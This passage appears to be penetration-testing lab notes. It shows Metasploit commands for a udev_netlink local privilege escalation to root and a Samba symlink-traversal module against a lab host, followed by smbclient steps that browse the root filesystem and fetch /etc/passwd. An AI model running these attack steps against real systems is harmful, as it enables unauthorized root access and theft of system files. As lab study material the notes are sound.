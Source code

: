 // https://www.exploit-db.com/exploits/21848/
// its potentially vulnerable to a **udev** exploit

#### msf in action
```
use exploi	t/linux/local/udev_netlink
set session 1
set other options
run
// we have shell with root access
```


### Exploiting Samba server
```
lets go back as user todd
smbd --version
```

  // Samba version: 3.0.20-Debian
  // look into the /etc/samba/smb.conf
  // We find that its configured with an option that allows reading of the root file system via Symlink Directory Traversal Vulnerability, specifically, the **wide links=yes** option.

> we can use a msf module to exploit that

#### exploit with msf
msf:
```
use auxiliary/admin/smb/samba_symlink_traversal
set rhost 172.16.80.22
set smbshare tmp
run
```

> Now access the following share to browser the root filesystem: \\mercury\tmp\rootfs

#### access the share
```
smbclient -N \\\\172.16.80.22\\tmp -U ""
 // we should get access
cd rootfs
ls
cd etc
get passwd
// its done
```


### Remotely exploitable vulnerability on a web server port.
- open the browser on port 80

- lets run dirsearch, to find any web directories 
